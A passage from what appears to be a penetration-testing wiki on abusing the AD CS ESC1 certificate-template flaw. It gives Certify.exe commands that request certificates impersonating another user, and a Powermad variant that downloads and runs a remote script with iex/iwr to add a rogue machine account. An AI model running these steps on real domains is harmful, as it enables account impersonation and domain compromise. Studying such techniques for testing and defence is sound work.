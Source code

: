 {% tab title="Certify" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Certify.exe request /machine /[CA Name] /template:[Template] /altname:[User to Impersonate]
</strong>
# Example
Certify.exe request /machine /ca:SRV2019.Security.local\Security-SRV2019-CA /template:ESC1 /altname:arbiter 
</code></pre>
{% endtab %}
{% endtabs %}

Repeat the steps in the section "Windows Abuse" from the point of requesting the certificate to complete the attack path.





### ESC1 - Windows - Machine Account Quota

The above section "ESC1 - Machine Account" presents an overview for abusing the ESC1 vulnerable template by abusing local administrative or SYSTEM level privileges for the current system to leverage the vulnerability.\
\
Another way to leverage this vulnerability for when "Domain Computers" have enrollement rights is by adding a new system to Active Dirctory\
\
Powermad can be used to enumerate for and add a new machine account to the domain.

Powermad: [https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

{% code overflow="wrap" %}
```powershell
# Load Powermad into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)

# Enumerate Machine Account Quota
New-MachineAccount -MachineAccount <ComputerName>

# New logon session as the machine account
runas.exe /user:security.local\EvilComputer$

# Run Certify (Without the /machine flag)
Invoke-Certify request /[CA Name] /template:[Template] /altname:[User to Impersonate]
```
{% endcode %}
